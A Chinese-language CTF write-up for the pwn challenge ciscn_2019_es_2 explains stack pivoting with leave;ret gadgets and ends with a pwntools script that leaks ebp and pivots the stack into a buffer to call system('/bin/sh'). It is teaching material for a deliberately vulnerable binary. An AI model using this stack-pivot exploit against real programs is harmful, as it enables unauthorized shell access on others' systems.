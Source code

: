 ```yaml
---
title: ciscn_2019_es_2 栈迁移
description: ciscn_2019_es_2 栈迁移-writeup
date: 2021-08-04 15:07:56
categories:
 - PWN
tags:
---
```




# ciscn_2019_es_2 栈迁移

## 栈迁移相关知识

栈迁移是通过leave_ret这样的gadget去实现的

leave相当于mov esp,ebp; pop ebp;

ret相当于pop eip;

具体实现看图，假设有个栈溢出的漏洞，将栈填充成如下图，此时的bss段或data段还没用内容，等等我们调用read函数读入内容

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628084946033-5aa5c57a-099b-4efa-b4aa-5be6a2af9c48.png)

当函数call调用一般都有leave和retn的操作

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628085026460-50484e42-b166-4f09-8d2c-7f9a675614b0.png)

首先调用mov esp, ebp;  pop ebp; 记得pop ebp之后esp要向下减一个单位

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628085121318-8ce5a92f-fcfe-440f-9b9f-04a4bf119448.png)

然后调用retn也就是pop eip，也就是调用read函数，往fake_ebp1中写入内容，主要是要往fake_ebp1中写入fake_ebp2，还有你需要调用的函数地址啥的

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628085530682-616b0ab1-3bf8-4d2a-ba3b-33afb14df499.png)

然后继续调用一遍leave，也就是mov esp, ebp; pop ebp; 

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628085655833-e99e9b9c-227e-457f-807e-50dfc8d571c1.png)

然后执行retn，也就是pop eip，这样就会调用我们写好的函数了，下面我们通过一道例题来深化理解一下。

## ciscn_2019_es_2

程序里有个vul()函数，第一个read读入0x30个字节数据，正好溢出0x8个字节，那么就只能覆盖原ebp和retn地址

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628085764891-5bded1cb-51d6-4b1e-9129-8754fc9f50c8.png)

还有个hack()函数，这里调用了system函数，但是不能直接获取flag，但是给我们提供了system函数的地址，之后我们就可以通过栈迁移的手段，调用system('/bin/sh');

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628085852276-707559f9-d51a-4954-8c6e-9ac7cf2dc877.png)

首先这里有两个read函数，没办法像上面提到的将栈迁移到我们的设想的地方，read函数的参数还是s，那么就迁移到s中，这里第一个read可以先泄露出ebp的地址，然后解出变量s的地址

```python
payload = 'a' * 0x20 + 'bbbbbbbb'//填满s，防止后面printf遇到/x00截断
p.send(payload)
p.recvuntil('bbbbbbbb')
ebp_addr = u32(p.recv(4))
log.info(hex(ebp_addr))
pause()
```

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628086200438-97447a79-cb20-4577-b2c8-2b4583092fb5.png)

原ebp地址距离s的偏移就为0x38，也就是s的地址泄露的ebp地址-0x38，知道了s的地址就可以开始栈迁移了

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628086747640-55c10240-3c0e-4f2f-ab0d-f4a4c1368bb4.png)

```python
from pwn import *

p = process('ciscn_2019_es_2')
# p = remote('node4.buuoj.cn','27049')

system_addr = 0x08048400
leave_ret = 0x08048562

payload = 'a' * 0x20 + 'bbbbbbbb'
p.send(payload)
p.recvuntil('bbbbbbbb')
ebp_addr = u32(p.recv(4))
log.info(hex(ebp_addr))
payload = 'aaaa' + p32(system_addr) + p32(0xdeadbeef) + p32(ebp_addr - 0x28) + '/bin/sh'
payload = payload.ljust(0x28,'\x00')
payload += p32(ebp_addr - 0x38) + p32(leave_ret)

p.send(payload)
p.interactive()
```